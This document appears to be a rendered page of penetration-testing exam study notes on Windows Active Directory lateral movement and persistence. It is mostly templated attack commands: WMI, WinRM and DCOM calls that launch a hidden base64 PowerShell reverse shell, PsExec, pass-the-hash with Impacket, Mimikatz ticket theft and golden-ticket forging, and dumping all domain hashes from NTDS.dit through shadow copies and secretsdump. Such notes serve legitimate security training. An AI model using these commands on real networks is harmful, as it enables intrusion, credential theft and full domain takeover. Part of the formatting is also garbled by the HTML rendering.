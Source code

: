 <p>Lateral movement doesn&#39;t have to be used for different subnets. If we have credentials but lack rdp, lateral movement as a domain user is our friend</p>
<h3 id="wmi-and-winrm">WMI and WinRM</h3>
<p><strong>Windows Management Instrumentation</strong></p>
<ul>
<li>Facilitates task automation via creating processes</li>
<li>Uses Remote Procedure Calls (RPC) over 135 for remote access</li>
<li>Abusing <code>wmic</code> (recently deprecated, but still probably good) on DMZ<ul>
<li><code>wmic /node:{target_IP} /user:{domain_user} /password:{password} process call create &quot;{process}&quot;</code></li>
<li>To use with powershell, we need to turn the password into a secure string and pass a reverse shell:
```
$username = &#39;{domain_user}&#39;;
$password = &#39;{password}&#39;;
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;</li>
</ul>
</li>
</ul>
<p>$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {target_IP} -Credential $credential -SessionOption $Options</p>
<p>$Command = &#39;powershell -nop -w hidden -e {reverse_shell_powershell_b64}&#39;;</p>
<p>Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};</p>
<pre><code>**WinRM**
-<span class="ruby"> Communicates over <span class="hljs-number">5986</span> <span class="hljs-keyword">and</span> <span class="hljs-number">5985</span> with XML via HTTP/HTTPS
</span>-<span class="ruby"> Use with <span class="hljs-string">`winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "cmd /c {command}"`</span> <span class="hljs-keyword">or</span> <span class="hljs-string">`winrs -r:{target_dnshostname} -u:{domain_user} -p:{password} "powershell -nop -w hidden -e {reverse_shell_powershell_base64}"`</span>
</span>-<span class="ruby"> Can also be done via powershell</span>
</code></pre><p>$username = &#39;{domain_user}&#39;;
$password = &#39;{password}&#39;;
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;</p>
<p>New-PSSession -ComputerName {target} -Credential $credential
Enter-PSSession {PSSession_ID_returned}
```</p>
<h3 id="psexec">PsExec</h3>
<ul>
<li>Tool used to replace telnet-like applications and provide remote execution of processes</li>
<li>From <a href="https://download.sysinternals.com/files/PSTools.zip">PsTools</a></li>
<li>Requires:<ul>
<li>Local Administrator</li>
<li><code>ADMIN$</code> share available (on by default)</li>
<li>File and Printer sharing (on by default)</li>
</ul>
</li>
<li><code>./PsExec64.exe -i  \\{dnshostname} -u {domain}\{domain_user} -p {password} cmd</code></li>
</ul>
<h3 id="pass-the-hash-repeat-from-module-16-">Pass the Hash (repeat from Module 16)</h3>
<ul>
<li>Only works for NTLM hashes (discussed in 16 - Password Attacks)</li>
<li>PsExec, Passing-the-hash toolkit, and Impacket can all pass hashes</li>
<li>SMB must be open</li>
<li>Impacket:<ul>
<li><code>impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}</code> and</li>
<li><code>impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}</code></li>
</ul>
</li>
</ul>
<h3 id="overpass-the-hash">Overpass the Hash</h3>
<ul>
<li>Use an NTLM user hash to gain a full Kerberos TGT to get a TGS</li>
<li>Assumes we own a server that has a domain user&#39;s hash</li>
<li>This can act as <code>RunAs</code> but for a domain user&#39;s hash </li>
<li>Performed using Mimikatz<ul>
<li><code>sekurlsa::pth /user:{domain_user} /domain:{domain} /ntlm:{compromised_hash} /run:powershell</code></li>
</ul>
</li>
<li>To get a Kerberos ticket, we run something in the new powershell window as jen<ul>
<li><code>net use \\files04</code></li>
</ul>
</li>
<li>Once we have the ticket, we can just use PsExec to run commands on the remote systems using the compromised user<ul>
<li><code>PsExec.exe \\{dnshostname} powershell</code></li>
<li>This only worked as the <em>ACTUAL</em> <code>Administrator</code> local user, not just an administrative user<ul>
<li>Need to be able to write to C:\Windows</li>
<li>We can just change the local Administrator user if we have an administrative user</li>
</ul>
</li>
</ul>
</li>
</ul>
<h3 id="pass-the-ticket">Pass the Ticket</h3>
<ul>
<li>TGTs only work on the machine they&#39;re created for, whereas TGSs offer flexibility</li>
<li>Export current in-memory tickets with <code>sekurlsa::tickets /export</code><ul>
<li>This exports all tickets in <code>.kirbi</code> format in the same file directory, ls to find the ticket names (among other info)</li>
<li>We can then pick the desired ticket by passing the ticket name<ul>
<li><code>kerberos::ptt {ticket_name}</code></li>
</ul>
</li>
<li>If using these to access file shares, running something like <code>ls \\web04\</code> will just give an error. Type <code>ls \\web04\</code> and press tab (or just <code>Find-DomainShare</code> with PowerView)</li>
</ul>
</li>
</ul>
<h3 id="dcom">DCOM</h3>
<ul>
<li>Good for lateral movement</li>
<li>Exploits the Distributed Component Object Model (DCOM)<ul>
<li>Used for creating software components that interact with each other</li>
<li>Local administrator access required</li>
</ul>
</li>
<li>Lateral movement attacks documented by <a href="https://www.cybereason.com/blog/dcom-lateral-movement-techniques">cybereason</a></li>
<li>Performed using built-in CreateInstance<ul>
<li><code>$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID(&quot;MMC20.Application.1&quot;,&quot;{target_IP}&quot;))</code> </li>
<li><code>$dcom.Document.ActiveView.ExecuteShellCommand(&quot;powershell&quot;,$null,&quot;{powershell -nop -w hidden -e {reverse_shell_powershell_base64}}&quot;,&quot;7&quot;)</code></li>
</ul>
</li>
</ul>
<h3 id="smb">SMB</h3>
<ul>
<li><code>net view //{dnshostname or IP} /all</code></li>
</ul>
<h3 id="persistence">Persistence</h3>
<ul>
<li>Not exactly tested by the exam, but shells can be flaky and these can help
<strong>Golden Ticket</strong></li>
<li>Trying to get the KDC&#39;s secret key to create self-made tickets for any service on the system</li>
<li>Requires full control over the DC or a being part of a Domain Admin group<ul>
<li>Or, requires krbtgt hash</li>
</ul>
</li>
<li>Dump <code>krbtgt</code> NTLM hash with mimikatz<ul>
<li><code>lsadump::lsa /patch</code></li>
</ul>
</li>
<li>After grabbing the hash, from any domain user:<ul>
<li><code>kerberos::purge</code> to delete any existing tickets</li>
<li><code>kerberos::golden /user:{domain_user} /domain:{domain} /sid:{domain_SID} /krbtgt:{krbtgt_NTLM_hash} /ptt</code><ul>
<li>The <code>domain_SID</code> can be gathered from whoami /user</li>
</ul>
</li>
</ul>
</li>
<li>This will essentially give the domain user Domain Admin privileges<ul>
<li><code>PsExec.exe \\{domain_controller_dnshostname} powershell</code><ul>
<li>Can&#39;t use the IP of the DC, as that will resort to NTLM
<strong>Shadow Copies</strong></li>
</ul>
</li>
</ul>
</li>
<li>Volume Shadow Service is a Microsoft backup technology that allows creation of snapshots</li>
<li>As a domain admin, we can create a shadow copy and extract the NTDS.dit database file</li>
<li>Installed from <a href="https://www.microsoft.com/en-us/download/details.aspx?id=23490">here</a></li>
<li>Run <code>vshadow.exe -nw -p C:</code></li>
<li>Then copy the Database from the shadow copy to the C: folder<ul>
<li><code>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak</code></li>
</ul>
</li>
<li>Then, save the SYSTEM hive with <code>reg.exe save hklm\system c:\system.bak</code></li>
<li>We can now access all NTLM hashes and Kerberos keys using <code>impacket-secretsdump</code><ul>
<li><code>impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL</code></li>
</ul>
</li>
</ul>
